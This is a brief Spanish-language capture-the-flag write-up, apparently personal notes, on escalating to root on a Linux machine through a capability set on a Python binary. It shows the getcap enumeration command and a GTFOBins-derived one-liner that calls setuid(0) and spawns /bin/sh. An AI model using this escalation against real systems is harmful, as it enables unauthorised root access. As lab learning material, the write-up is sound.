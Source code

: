 #getcapbinariopython38

Usamos el comando `getcap -r / 2>/dev/null` y vemos que tiene una capability en python

![[Cap14.png]]

Vamos a vamos a [gtfobinds](https://gtfobins.github.io/gtfobins/python/#capabilities), nos da este oneliner
![[Cap13.png]]
Lo adaptamos a nuestra maquina ``python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`` lo ejecutamos y ya podemos visualizar las flags

![[Cap15.png]]